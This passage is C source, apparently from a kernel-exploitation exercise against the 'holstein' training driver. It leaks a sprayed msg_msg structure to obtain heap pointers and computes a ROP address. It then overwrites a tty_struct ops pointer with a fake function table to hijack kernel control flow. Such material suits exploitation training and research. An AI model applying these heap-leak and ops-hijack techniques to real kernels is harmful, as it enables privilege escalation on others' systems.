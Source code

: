 ```c
    ssize_t bytes_read = read(fd, msg_buf, GBUF_SZ);
    if (bytes_read != (ssize_t)GBUF_SZ) {
        err("Failed to read from holstein");
    }

    /* msg_msg {
        struct list_head m_list {
            struct list_head *next, *prev;
        } // 16 bytes
        long m_type; // 8 bytes
        int m_ts; // 4 bytes
        struct msg_msgseg* next; // 8 bytes
        void *security; // 8 bytes

        ===== Body Starts Here (offset 48) =====
    }*/ 

    // Some heuristics to see if we indeed have a good msg_msg
    uint64_t next = *(uint64_t *)&msg_buf[0];
    uint64_t prev = *(uint64_t *)&msg_buf[sizeof(uint64_t)];
    int64_t m_type = *(uint64_t *)&msg_buf[sizeof(uint64_t) * 2];

    // Not one of our msg_msg structs
    if (m_type != 0x1337L) {
        return false;
    }

    // We have to have valid pointers
    if (next == 0 || prev == 0) {
        return false;
    }

    // I think the pointers should be different as well
    if (next == prev) {
        return false;
    }

    info("Found msg_msg struct:");
    printf("    >> msg_msg.m_list.next: 0x%lx\n", next);
    printf("    >> msg_msg.m_list.prev: 0x%lx\n", prev);
    printf("    >> msg_msg.m_type: 0x%lx\n", m_type);

    // Update rop address
    rop_addr = 48 + next;
    
    return true;
}

void overwrite_ops(int fd) {
    unsigned char g_buf[GBUF_SZ] = { 0 };
    ssize_t bytes_read = read(fd, g_buf, GBUF_SZ);
    if (bytes_read != (ssize_t)GBUF_SZ) {
        err("Failed to read enough bytes from fd: %d", fd);
    }

    // Overwrite the tty_struct->ops pointer with ROP address
    *(uint64_t *)&g_buf[24] = fake_table;
    ssize_t bytes_written = write(fd, g_buf, GBUF_SZ);
    if (bytes_written != (ssize_t)GBUF_SZ) {
        err("Failed to write enough bytes to fd: %d", fd);
    }
}

```